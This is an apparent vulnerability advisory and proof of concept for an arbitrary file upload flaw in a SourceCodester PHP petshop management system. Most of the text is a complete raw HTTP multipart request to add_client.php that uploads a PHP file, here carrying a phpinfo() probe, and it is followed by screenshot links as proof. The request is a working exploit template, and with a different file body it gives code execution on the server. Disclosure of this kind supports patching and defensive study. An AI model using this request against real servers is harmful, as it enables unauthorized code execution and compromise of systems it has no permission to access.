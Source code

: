 petshop-management-system any file upload

Exploit Author: webraybtl@webray.com.cn inc

Vendor Homepage: https://www.sourcecodester.com/php/14962/petshop-management-system-using-phppdo-oop-full-source-code-complete.html

Software Link: https://www.sourcecodester.com/php/14962/petshop-management-system-using-phppdo-oop-full-source-code-complete.html

CMSName: petshop-management-system

Tested on: Windows, Apache ,Mysql

Description

The reason for the arbitrary file upload vulnerability is that the website application allows users to upload any type of file without restrictions in the add_client. php code, resulting in arbitrary file uploads.

    Payload used:

    POST /Petshop_Management_System/controllers/add_client.php HTTP/1.1
    Host: 192.168.2.110
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:129.0) Gecko/20100101 Firefox/129.0
    Accept: */*
    Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
    Accept-Encoding: gzip, deflate
    Connection: close
    Referer: http://192.168.2.110/Petshop_Management_System/
    Content-Type: multipart/form-data; boundary=----WebKitFormBoundarysOcLQ1YbU3iam8cM
    Content-Length: 182
    
    ------WebKitFormBoundarysOcLQ1YbU3iam8cM
    Content-Disposition: form-data; name="image_profile";filename="test.php"
    
    <?php phpinfo();?>
    ------WebKitFormBoundarysOcLQ1YbU3iam8cM--


Proof of Concept

![image](https://github.com/user-attachments/assets/ed3722ad-d1f6-431c-995f-f3cb2e23ba40)
![image](https://github.com/user-attachments/assets/57cb8cef-7350-412d-b644-8d70a2088a2f)



